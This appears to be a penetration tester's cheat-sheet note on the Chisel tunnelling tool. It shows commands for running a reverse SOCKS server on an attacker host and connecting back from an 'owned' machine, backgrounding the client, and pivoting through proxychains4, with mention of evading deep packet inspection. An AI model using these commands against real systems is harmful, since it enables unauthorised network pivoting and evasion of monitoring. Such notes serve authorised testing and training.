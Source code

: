 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.


Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```


From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

If you don't want to use port 1080, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${SOME_PORT}:socks
```

now, use `${SOME_PORT}` as the socks proxy port.


Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```

